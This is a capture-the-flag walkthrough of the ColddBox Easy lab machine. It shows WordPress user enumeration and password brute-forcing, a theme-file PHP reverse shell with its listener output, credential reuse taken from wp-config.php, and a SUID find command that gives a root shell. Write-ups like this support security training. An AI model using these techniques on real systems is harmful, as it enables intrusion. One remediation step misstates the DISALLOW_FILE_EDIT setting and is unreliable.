


## Overview

Coldboxeasy was a straightforward Linux box focusing on WordPress exploitation and privilege escalation via SUID binaries. The attack chain involved brute-forcing WordPress credentials, editing a theme file to achieve RCE, then leveraging password reuse from the database config to move laterally to an unprivileged user, and finally escalating to root via a SUID-enabled `find` binary.

## Enumeration

### Nmap / RustScan

```
PORT     STATE SERVICE REASON
80/tcp   open  http    syn-ack ttl 61
4512/tcp open  unknown syn-ack ttl 61
```

Port 4512 was interesting but not pursued. Focus was on HTTP (80).

### HTTP Service

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: WordPress 4.1.31
```

- Website running WordPress 4.1.31 — an old version with known vulnerabilities
- Many vulnerabilities present but required authenticated access



### WordPress Enumeration (WPScan)

Ran WPScan to enumerate users and vulnerabilities:

```
[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Found 3 WordPress users. Attempted password brute-force against the WordPress login panel.

### WordPress Login Brute Force

```
[+] Performing password attack on Wp Login against 4 user/s
[SUCCESS] - c0ldd / 9876543210
```

Successfully cracked the password for user `c0ldd`.



## Initial Access

With admin credentials, I accessed the WordPress admin panel and exploited the ability to edit theme files directly. Specifically, I modified the `404.php` file (error page handler) to contain a PHP reverse shell.

When the 404 page was triggered (by requesting a non-existent URL), the PHP payload executed and established a reverse shell callback:

```bash
[May 06, 2026 - 23:51:52 (+08)] exegol-offsec coldboxeasy # penelope -p 9001
[+] Listening for reverse shells on 0.0.0.0:9001 →  127.0.0.1 • 192.168.215.2 • 192.168.45.195
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from ColddBox-Easy~192.168.249.239-Linux-x86_64 😍️ Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12
[+] Logging to /root/.penelope/sessions/ColddBox-Easy~192.168.249.239-Linux-x86_64/2026_05_06-23_52_02-851.log 📜
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────
www-data@ColddBox-Easy:/$ whoami
www-data
```

Obtained initial shell as `www-data` (web server user).

## Lateral Movement

Once on the box, I examined the WordPress configuration file for credentials:

```bash
www-data@ColddBox-Easy:/var/www/html$ cat wp-config.php
...
/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');
```

Found database credentials. The password `cybersecurity` was reused as the system password for the `c0ldd` user:

```bash
www-data@ColddBox-Easy:/var/www/html$ su c0ldd
Password: cybersecurity
c0ldd@ColddBox-Easy:/var/www/html$ whoami
c0ldd
```

Successfully pivoted to the `c0ldd` user via password reuse.

## Privilege Escalation

Enumerated SUID binaries to find privilege escalation vectors:

```bash
c0ldd@ColddBox-Easy:~$ find / -perm -4000 2>/dev/null
/bin/su
/bin/ping6
/bin/ping
/bin/fusermount
/bin/umount
/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/find          ← This one
/usr/bin/sudo
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/at
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/passwd
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

The `/usr/bin/find` binary has the SUID bit set. Per GTFOBins, `find` can be abused to execute arbitrary commands as root:

```bash
c0ldd@ColddBox-Easy:~$ find . -exec /bin/sh -p \; -quit
# whoami
root
```

The `-p` flag to `/bin/sh` preserves the SUID context. Obtained root shell.

## Proof

```
hostname: ColddBox-Easy
whoami: root
uid: 0(root) gid: 0(root) groups: 0(root)
```

## Scope

The objective was to fully compromise the Coldboxeasy machine and gain root-level access.

## Remediation

1. **Keep WordPress updated**: WordPress 4.1.31 is ancient. Upgrade to the latest version (5.x or 6.x) to patch multiple RCE vulnerabilities and deprecate direct file editing in the admin panel.
2. **Enforce strong, unique passwords**: The password `9876543210` was trivially weak. Enforce minimum complexity requirements (12+ characters, mixed case, symbols).
3. **Do not reuse database passwords**: The password `cybersecurity` used for both the WordPress database and system user is a critical mistake. Use strong, unique credentials for each service.
4. **Remove SUID bit from find**: The `find` binary should not have SUID enabled unless there's a specific operational need. Review all SUID binaries with `find / -perm -4000` regularly.
5. **Disable direct file editing in WordPress**: Disable the `DISALLOW_FILE_EDIT` constant in `wp-config.php` to prevent theme/plugin editing through the admin panel.

## Lessons Learned

- **Password reuse is endemic**: Found credentials in multiple places (WordPress admin panel, database config, system account). Always assume services will reuse passwords and test them everywhere.
- **WordPress admin panel access is game-over**: Once you have admin credentials, RCE is trivial (theme edits, plugin uploads, etc.). Password spraying WordPress is always a high-priority initial tactic.
- **SUID binaries are critical**: `find`, `tar`, `zip`, and other common utilities with SUID bits should be removed or their `-exec` functionality should be restricted. GTFOBins is the go-to reference.
- **Old software compounds risk**: WordPress 4.1.31 (released 2014) had multiple unauthenticated RCE paths. Keeping systems updated is the highest-impact mitigation.
